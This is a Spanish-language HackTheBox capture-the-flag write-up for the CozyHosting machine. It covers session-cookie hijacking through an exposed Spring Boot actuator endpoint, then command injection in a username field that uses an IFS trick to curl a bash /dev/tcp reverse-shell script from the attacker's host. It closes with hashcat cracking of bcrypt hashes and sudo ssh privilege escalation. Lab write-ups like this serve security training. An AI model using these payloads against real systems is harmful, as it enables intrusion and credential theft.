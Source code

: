 ```yaml
---
title: CozyHosting
date: 2024-08-30
categories: [WRITEUPS, HackTheBox]
tags: []  # TAG names should always be lowercase
image: /assets/images/hackthebox/htblogo.png
---
```


![picture](/assets/images/hackthebox/cozy1.png)

---

Buenas, en este ***Writeup*** explotaremos un **Coockies Hijacking** por un filtrado de coockie de sesión, entraremos al servidor gracias a un **RCE**, y escalaremos privilegios gracias a los permisos de **SUDO** en el binario **/usr/bin/ssh**.

---

En este ***Writeup*** se engloban las siguientes fases:
- **[Reconocimiento](#reconocimiento)**
- **[Explotación](#explotación)**
- **[Escalada de privilegios](#escalada-de-privilegios)**

---

## **Reconocimiento**

Lo primero que realizaremos será un escaneo con *NMAP*, para comprobar los puertos abiertos de la máquina.

```bash
nmap -p- --open -T5 10.10.11.230 -n -Pn -v
```

![picture](/assets/images/hackthebox/cozy2.png){: w="600" h="300" }

Una vez comprobados los puertos, nos iremos al navegador web para ver la página asociada a la *IP*, al no mostrar contenido porque no está resolviendo el nombre de dominio, tendremos que añadir el dominio junto con la *IP* al archivo "**/etc/hosts**".

![picture](/assets/images/hackthebox/cozy3.png)

Una vez guardado, nos vamos al navegador a ver el contenido.

![picture](/assets/images/hackthebox/cozy4.png)

Buscando con **Wappalyzer**, **Whatweb**, y el código de la página no consigo encontrar que aplicación está corriendo por detrás.

Realizando **Fuzzing** con **Gobuster**, no encuentro mucho contenido

```bash
gobuster dir -u http://cozyhosting.htb/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -b 403,404 -x .txt,.php,.sh,.html,.png,.jpg
```

![picture](/assets/images/hackthebox/cozy5.png)

Si nos metemos en la ruta "**/error**", nos muestra el siguiente mensaje.

![picture](/assets/images/hackthebox/cozy6.png){: w="600" h="300" }

Buscando por internet el error, encuentro que se trata de **Spring Boot**, que es un marco **Java** de código abierto que se utiliza para programar aplicaciones independientes basadas en **Spring** de nivel de producción con un mínimo esfuerzo.

Podemos encontrar una lista de rutas de **Spring Boot** en "**/usr/share/SecLists/Discovery/Web-Content/spring-boot.txt**", así que la idea será realizar **Fuzzing** con esta lista.

```bash
gobuster dir -t 100 -u http://cozyhosting.htb/ -w /usr/share/SecLists/Discovery/Web-Content/spring-boot.txt -x .txt,.php,.html,.sh,.png,.jpg,.jpeg -b 404,403,500
```

![picture](/assets/images/hackthebox/cozy7.png)

En la ruta "**/actuator/sessions**" encontramos lo que parece ser un usuario.

![picture](/assets/images/hackthebox/cozy8.png)

Al interceptar la petición con **Burpsuite**, si volvemos a mirar la ruta "**/actuator/sessions**", nos damos cuenta que el número que sale al lado del usuario, es la **coockie de sesión**, como podemos ver en las siguientes 2 imágenes.

![picture](/assets/images/hackthebox/cozy9.png)

![picture](/assets/images/hackthebox/cozy10.png)

---
## **Explotación**

Comprobando lo anterior nos damos cuenta que podemos explotar un **Coockies Hijacking**, con la **coockie** de sesión del usuario **kanderson**.

Para realizarlo, presionaremos "**F12**", nos iremos a **Storage**, y cambiaremos el valor de nuestra **Coockie**, y pondremos el ***HttpsOnly*** en ***false***, ya que sin esto no funcionará. 

![picture](/assets/images/hackthebox/cozy16.png)


Y una vez lo realicemos, escribiremos **admin** en la ruta del dominio, y nos meterá en el **Dashboard** del admin.

![picture](/assets/images/hackthebox/cozy17.png)

A continuación, interceptaremos la petición con **Burpsuite**, para ver como se envía.

![picture](/assets/images/hackthebox/cozy18.png)

La envíamos al **repiter**, y volvemos a lanzar la petición, y nos dice que no puede resolver el **Hostname** **test**.

![picture](/assets/images/hackthebox/cozy19.png)

Probando distintos nombres, e intentando inyectar comandos tanto en **Hostname**, como en **Username**, podemos ejecutar comandos en el parámetro **Username**.

![picture](/assets/images/hackthebox/cozy22.png)

Si intentamos listar un comando con espacios, nos dice que no puede contener espacios.

![picture](/assets/images/hackthebox/cozy23.png)

Lo que vamos a realizar, es sustituir los espacios por barras bajas __ .

Para ello utilizaremos la variable **IFS** de bash para que defina los separadores internos entre campos para palabras.

Crearemos un script al que llamaré **rshell.sh** en nuestra máquina local con el contenido de una **Reverse Shell**.

```bash
bash -i >& /dev/tcp/nuestra ip/4444 0>&1
```

Y crearemos un servidor **HTTP** donde hayamos creado el archivo.

```bash
python3 -m http.server 8888
```

Enviamos el siguiente comando con la variable **IFS** en el parámetro de **username**.

```bash
$(IFS=_;command='curl_http://10.10.16.4:8888/rshell.sh_--output_/tmp/rshell.sh';$command)
```


![picture](/assets/images/hackthebox/cozy24.png){: w="600" h="300" }

Le damos permisos al script.

```bash
$(IFS=_;command='chmod_777_/tmp/rshell.sh';$command)
```

![picture](/assets/images/hackthebox/cozy25.png){: w="600" h="300" }

Nos abrimos un Listener con ncat.

```bash
nc -nlvp 4444
```

Y ejecutamos el script.

```bash
$(IFS=_;command='/tmp/rshell.sh';$command)
```

![picture](/assets/images/hackthebox/cozy26.png){: w="600" h="300" }

Y obtenemos acceso al servidor, como el usuario **app**.

![picture](/assets/images/hackthebox/cozy27.png){: w="600" h="300" }

Realizamos un tratamiento de la **TTY**, para poder movernos mejor mediante la terminal.

(*Para ver el número de filas y columnas en vuestra máquina, dirigiros a vuestra máquina local y ejecutais **stty size***, *y cambiáis si es necesario el número de filas y columnas*)

```bash
script /dev/null -c bash
Ctrl_Z
stty raw -echo; fg
reset xterm
stty rows 49 columns 188
export TERM=xterm
```

---

## **Escalada de privilegios**

Dentro de la máquina, encontramos un archivo **.jar**, que nos vamos a traer a la máquina local para descomprimirlo y ver su contenido.

Montamos un servidor **HTTP** en el servidor, y nos lo descargamos en la máquina local con **wget**.

![picture](/assets/images/hackthebox/cozy28.png)

```bash
wget http://10.10.11.230:4444/cloudhosting-0.0.1.jar
```

![picture](/assets/images/hackthebox/cozy29.png)

Lo descomprimimos con **unzip**.

```bash
unzip cloudhosting-0.0.1.jar
```

Y encontramos 3 carpetas.

![picture](/assets/images/hackthebox/cozy30.png)

En el archivo "**/BOOT-INF/classes/application.properties**" encontramos, lo que parecen ser las credenciales de una base de datos **POSTGRESQL**.

![picture](/assets/images/hackthebox/cozy31.png){: w="600" h="300" }

Entramos dentro de la base de datos de "**cozyhosting**", y encontramos las credenciales de **kanderson**, y el **admin**.

![picture](/assets/images/hackthebox/cozy32.png){: w="600" h="300" }

Comprobamos que el hash es del tipo **bcrypt**.

![picture](/assets/images/hackthebox/cozy34.png){: w="600" h="300" }

Intentamos descifrarlo mediante ataque de diccionario.

```bash
hashcat -m 3200 -a 0 hash /usr/share/wordlists/rockyou.txt
```

Y encuentra la contraseña del **Admin**.

![picture](/assets/images/hackthebox/cozy33.png){: w="600" h="300" }

Vemos que hay un usuario **josh**, intentamos migrar con la contraseña del **Admin**, y funciona.

![picture](/assets/images/hackthebox/cozy35.png)
Y en su carpeta personal encontramos la primera **flag**.

![picture](/assets/images/hackthebox/cozy36.png)

Listando los permisos de **SUDO**, comprobamos que puede ejecutar como **root** el binario **/usr/bin/ssh**.

En la web de [**GTFOBins - ssh**](https://gtfobins.github.io/gtfobins/ssh/), nos indica como podemos escalar privilegios.

En la carpeta personal de **root** encontramos la segunda **flag**.

![picture](/assets/images/hackthebox/cozy37.png)

![picture](/assets/images/hackthebox/cozy38.png){: w="600" h="300" }